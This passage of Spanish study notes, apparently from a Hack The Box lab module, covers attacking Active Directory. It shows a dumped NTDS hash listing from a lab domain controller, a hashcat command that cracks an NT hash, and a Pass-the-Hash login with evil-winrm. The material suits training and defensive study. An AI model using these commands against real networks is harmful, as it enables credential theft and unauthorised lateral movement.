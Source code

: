 ```
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database

```

---

# **Cracking Hashes y obteniendo credenciales**

Podemos continuar creando un archivo de texto que contenga todos los hashes NT, o podemos copiar y pegar individualmente un hash específico en una sesión de terminal y usar hashcat para intentar romper el hash y una contraseña en ClearText.

### **Romper un solo hash con hashcat**

Atacando activo directorio y ntds.dit

```
xnoxos@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt64f12cddaa88057e06a81b54e73b949b:Password1

```

En muchas de las técnicas que hemos cubierto hasta ahora, hemos tenido éxito en agrietarse los hashes que hemos obtenido.

`What if we are unsuccessful in cracking a hash?`

---

# **Consideraciones de pases**

Todavía podemos usar hashes para intentar autenticarse con un sistema que usa un tipo de ataque llamado`Pass-the-Hash` (`PtH`). Un ataque de PTH aprovecha el[Protocolo de autenticación NTLM](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials)Para autenticar a un usuario usando un hash de contraseña. En lugar de`username`:`clear-text password`Como formato para iniciar sesión, en su lugar podemos usar`username`:`password hash`. Aquí hay un ejemplo de cómo funcionaría esto:

### **Pass-the-Hash con Evil-Winrm Ejemplo**

Atacando activo directorio y ntds.dit

```
xnoxos@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

Podemos intentar usar este ataque cuando necesitamos moverse lateralmente a través de una red después del compromiso inicial de un objetivo. Más sobre PTH se cubrirá en el módulo`AD Enumeration and Attacks`.